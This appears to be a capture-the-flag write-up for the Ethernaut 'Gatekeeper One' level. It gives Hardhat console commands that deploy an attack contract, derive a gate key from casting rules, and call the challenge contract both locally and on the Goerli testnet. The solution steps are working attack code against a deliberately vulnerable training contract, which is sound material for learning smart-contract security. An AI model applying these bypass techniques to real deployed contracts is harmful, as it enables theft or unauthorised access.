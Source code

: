 # Gatekeeper One

[Gatekeeper One](https://ethernaut.openzeppelin.com/level/0x2a2497aE349bCA901Fea458370Bd7dDa594D1D69)


The contract controls access to a function through 3 modifiers. To satisfy the enforced restrictions one can pre-compute the expected
values.


## Test Attack
```BASH
npx hardhat compile
npx hardhat console
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

//Connect to GatekeeperOne contract on-chain
GateFactory = await ethers.getContractFactory("GatekeeperOne")
gate = await GateFactory.attach("0xb3B110EaAf9A157f94901feC66dED0aD06F1AA38")
await gate.entrant()

//Deploy Attack contract
AttackFactory = await ethers.getContractFactory("Attack")
attack = await AttackFactory.connect(accounts[0]).deploy(gate.address)

//Discover solution to GateThree
//Consider this 8-byte value
//    1234567890123456
// "0x1234567890abcdef"

//Compute the solution to the various gate condition components
(await attack.left("0x1234567890abcdef")).toString(16)
(await attack.oneu16u64("0x1234567890abcdef")).toString(16)
(await attack.twou64("0x1234567890abcdef")).toHexString()
(await attack.threeu16u64("0xCbB9660eA60B895443ef5001B968b6Ae4c0AaA18")).toString(16)

//         90abcdef
//             cdef
// 1234567890abcdef
//             aa18

// Solution:
//   last 4 digits of address
//             \/\/
// 123456780000aa18
// /\/\/\/\
// Non-Zero

await attack.connect(accounts[0]).testThree("0x123456780000aa18")
await attack.connect(accounts[0]).enter("0x123456780000aa18", 0)
(await attack.extragas()).toString()
```

<BR />

## Live Attack

```BASH
npx hardhat compile
npx hardhat console --network goerli
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

//Connect to GatekeeperOne contract on-chain
GateFactory = await ethers.getContractFactory("GatekeeperOne")
gate = await GateFactory.attach("0xb3B110EaAf9A157f94901feC66dED0aD06F1AA38")
await gate.entrant()

//Deploy Attack contract
AttackFactory = await ethers.getContractFactory("Attack")
attack = await AttackFactory.connect(accounts[0]).deploy(gate.address)

await attack.connect(accounts[0]).testThree("0x123456780000aa18")
await attack.connect(accounts[0]).enter("0x123456780000aa18", 0)
(await attack.extragas()).toString()
```

<BR />

## Other

```shell
npx hardhat help
npx hardhat test
REPORT_GAS=true npx hardhat test
npx hardhat node
npx hardhat run scripts/deploy.ts
```
